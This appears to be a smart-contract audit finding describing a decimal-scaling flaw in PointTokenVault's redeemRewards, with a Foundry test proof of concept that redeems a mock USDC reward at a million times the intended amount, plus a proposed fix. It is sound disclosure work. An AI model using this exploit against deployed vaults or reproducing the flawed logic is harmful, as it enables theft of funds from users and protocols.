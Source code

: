 
The user can redeem their pToken for way more reward tokens than anticipated. In the PoC below (mocking USDC as a reward token) the user can get 1,000,000x the amount of reward tokens than they should get.

#### PoC
Paste the following PoC into PointTokenVault.t.sol:


```javascript
function test_redemptionWrongForNon18Decimals() public {
    uint8 decimals = 6;
    MockERC20 usdcReward = new MockERC20("USDC Reward", "USDC", decimals);
    
    // Give vault reward tokens to distribute
    usdcReward.mint(address(pointTokenVault), 1_000_000_000e6);

    // Operator sets reward token to a non-18-decimal reward token
    vm.startPrank(operator);
    // For 1 pToken : 2 reward tokens  (e18 - e6) -> 2e12 rewardsPerToken 
    pointTokenVault.setRedemption(eigenPointsId, usdcReward, 2e12, false);
    vm.stopPrank();

    // This is equal to vitalik buying pTokens somewhere
    vm.startPrank(address(pointTokenVault));
    pointTokenVault.pTokens(eigenPointsId).mint(vitalik, 1e18);
    vm.stopPrank();


    bytes32[] memory empty = new bytes32[](0);

    // Vitalik redeems 1 pToken for 2 reward tokens
    vm.startPrank(vitalik);
    // pointTokenVault.redeemRewards(PointTokenVault.Claim(eigenPointsId, 2e6, 2e6, empty), vitalik);
    pointTokenVault.redeemRewards(PointTokenVault.Claim(eigenPointsId, 1e6*2e6, 1e6*2e6, empty), vitalik);
    vm.stopPrank();

    assertEq(usdcReward.balanceOf(vitalik), 1e6*2e6);
    assertEq(pointTokenVault.pTokens(eigenPointsId).balanceOf(vitalik), 0);
}
```

#### Mitigation

Two possible mitigations:
1. (worse) Only allow reward tokens with 18 decimals
2. Modify redeemRewards to account for different decimals e.g.

```javascript
uint256 rewardTokenDecimals = params.rewardToken.decimals();
uint256 decimalAdjustment = 10**(18 - rewardTokenDecimals);
```